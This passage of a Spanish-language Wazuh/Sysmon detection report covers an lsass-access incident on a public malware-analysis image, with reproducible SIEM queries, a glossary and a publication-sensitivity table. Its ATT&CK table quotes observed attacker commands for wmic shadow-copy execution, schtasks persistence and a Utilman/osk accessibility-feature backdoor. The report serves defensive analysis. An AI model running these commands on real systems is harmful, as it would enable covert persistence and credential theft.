| Windows Management Instrumentation | `T1047` | `wmic process list /format:"…test.xsl"`, `wmic shadowcopy call create` y `wmic process call create` sobre la copia de sombra | Observado |
| Scheduled Task/Job: Scheduled Task | `T1053.005` | `schtasks /create /sc MINUTE /TN MSOFFICE_` y `/tn "eyNQLDvUSuvVPg"` | Observado |
| Event Triggered Execution: Accessibility Features | `T1546.008` | `vshadow.exe -exec=c:\windows\System32\osk.exe` con `Utilman.exe` | Observado |

---

## Anexo A — Consultas reproducibles

Índice `wazuh-alerts-*`, en Discover o mediante la API:

```
rule.id: 100101
data.Event.System.Computer: "IEWIN7"
data.Event.EventData.Data: "voice_mail"
data.Event.EventData.Data: "lsass"
data.Event.EventData.Data: "1532"
```

Definición de la regla en el manager:

```sh
awk '/<rule id="100101"/,/<\/rule>/' /var/ossec/etc/rules/local_rules.xml
```

Consulta directa a la API, con un usuario de solo lectura:

```sh
curl -k -u "$USUARIO:$CLAVE" -H 'Content-Type: application/json' \
  -XPOST "https://127.0.0.1:9200/wazuh-alerts-*/_search" \
  --data-binary '{"size":10,"query":{"match_phrase":{"rule.id":"100101"}}}'
```

---

## Anexo B — Glosario

| Término | Significado |
|---|---|
| `EventID 1` | Sysmon: creación de proceso; incluye usuario y proceso padre |
| `EventID 3` | Sysmon: conexión de red |
| `EventID 8` | Sysmon: `CreateRemoteThread`, creación de un hilo dentro de otro proceso |
| `EventID 10` | Sysmon: un proceso abrió un handle sobre otro proceso |
| `EventID 11` | Sysmon: archivo creado |
| `GrantedAccess` | Permisos que el proceso origen obtuvo sobre el destino |
| `PROCESS_ALL_ACCESS` | `0x001fffff`: todos los derechos disponibles en Windows Vista y posteriores |
| `lsass.exe` | Proceso de Windows que almacena credenciales |
| Ruta UNC | Ruta de red con formato `\\servidor\recurso`; el binario no reside en el disco local |
| `TP` / `FP` | Verdadero positivo / falso positivo |
| `UtcTime` / `TimeCreated` | Hora del evento en la máquina / hora en que el SIEM lo recibió |

---

## Anexo C — Datos sensibles y publicación

| Dato | Tratamiento |
|---|---|
| IP y hostnames del laboratorio (servidor SIEM, red interna) | No incluidos en este documento |
| `IEWIN7`, `10.0.2.18`, `VBOXSVR` | Incluidos: pertenecen a una imagen pública de análisis de malware y al rango NAT de VirtualBox |
| Credenciales, tokens, hashes de usuarios | No incluidos |
| Nombre del binario (`voice_mail.msg.exe`) | Incluido como IoC de baja fidelidad |
| Capturas del dashboard | Muestran `IEWIN7`, la fecha de ingesta y `172.18.0.1` (puerta de enlace del bridge de Docker, no identificatoria). No muestran la IP del servidor ni rutas del laboratorio |
| Capturas de pantalla del dashboard | Muestran `IEWIN7`, la fecha de ingesta y `172.18.0.1` (puerta de enlace del bridge de Docker, no identificatoria). No muestran la IP del servidor ni rutas del laboratorio |

**Estado:** apto para publicación. No contiene infraestructura del laboratorio ni credenciales.
